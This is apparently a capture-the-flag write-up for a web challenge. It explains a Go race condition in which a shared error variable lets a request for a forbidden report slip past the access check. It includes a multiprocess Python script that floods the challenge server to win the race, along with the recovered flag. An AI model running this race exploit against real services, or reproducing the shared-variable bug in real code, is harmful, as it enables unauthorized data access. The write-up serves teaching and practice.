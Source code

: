 ```yaml
---
title: "██████████"
description: "RISC intro2web challenge 7"
pubDate: "Aug 27 2025"
heroImage: "/hero/index-bank-robber_Raaquilla.webp"
tags: ["cyber", "go", "python", "ctf", "exploit"]
---
```


###### [Canonical > RISC](https://writeups.urisc.club/web/7___________/)

## Challenge description

The ██████ with ███████ has ██████ and the ███ ███ ███████. Report ID 6 is not to be ████████.

---

## Approach

We can go to `/transparency/` and find that "Report ID 6" from the hint is referring to `Report 6 (PDF) (TO BE REVIEWED)` from the Transparency Report.

Looking at the `session.go` source code we find the vulnerability here:

```go
sockdir := "/tmp/session." + session
err := os.Mkdir(sockdir, 0o777)
if err != nil {
	panic(err)
}

http.HandleFunc("/getReport", func(w http.ResponseWriter, r *http.Request) {
	id := r.URL.Query().Get("id")
	if err = shouldAllowReport(id); err != nil {
		http.Error(w, "Invalid report!", http.StatusInternalServerError)
		return
	}

	file, err := os.Open("reports/" + id)
	if err != nil {
		http.Error(w, "Filesystem Error", http.StatusInternalServerError)
		return
	}

	data, err := io.ReadAll(io.LimitReader(file, 16777216))
	if err != nil {
		http.Error(w, "File Read Error", http.StatusInternalServerError)
		return
	}

	w.Write(data)
})
```

Specifically, `if err = shouldAllowReport(id)` doesnt use `:=` to declare and assign `err` like all the other calls, instead it uses `=` which assigns the error to the previously declared `err` at `err := os.Mkdir(sockdir, 0o777)`.

This means that all threads of the `/getReport` http handler will use the same `err` variable, exposing a potential race condition where a request for `6.pdf` sets `err`, then a request to an allowed pdf sets it to `nil` making the `err != nil` check after `shouldAllowReport` pass for the `6.pdf` request.

We will attempt to hit the race condition by spamming requests to the server, some for 05.pdf which is allowed but returns a filesystem error to be faster than returning the pdf content, and some for 6.pdf to get our flag.

### Python implementation

```python
import requests
import os
from multiprocessing import Process, Queue

URL = "http://leftmanbrothers.ctf.urisc.club"


def worker(report_id, queue, cookie):
	sess = requests.Session()
	sess.cookies.set("sessionid", cookie)

	while True:
		r = sess.get(f"{URL}/transparency/getReport", params={"id": report_id})

		if r.status_code == 502:
			queue.put(None)
			return

		if report_id == "6.pdf" and r.status_code == 200:
			queue.put(r.content)
			return


def main():
	while True:
		queue = Queue()

		sess = requests.Session()
		r = sess.get(f"{URL}/transparency/")
		session_id = r.cookies.get("sessionid")

		print("Starting new session: ", session_id)

		processes = []
		for _ in range(14):
			p = Process(target=worker, args=("05.pdf", queue, session_id))
			processes.append(p)
			p.start()

		for _ in range(14):
			p = Process(target=worker, args=("6.pdf", queue, session_id))
			processes.append(p)
			p.start()

		flag = queue.get()

		for p in processes:
			p.terminate()
			p.join()

		queue.close()
		queue.join_thread()

		if flag is not None:
			with open("/tmp/6.pdf", "wb") as f:
				f.write(flag)

			print("Flag written to /tmp/6.pdf!")
			os.popen("open /tmp/6.pdf")
			break


if __name__ == "__main__":
	main()
```

After running for a few minutes, we get a success and find a sensitive note in 6.pdf:

> In recognition of the extraordinary discretion required, authentication for all internal<br>
> requests related to Project Backdoor will utilize the following passphrase:<br>
> RISC{leftman_liquidity_forever_9a7f42}<br>
> This string is not to be transmitted over open channels.

Our flag is:

```
RISC{leftman_liquidity_forever_9a7f42}
```
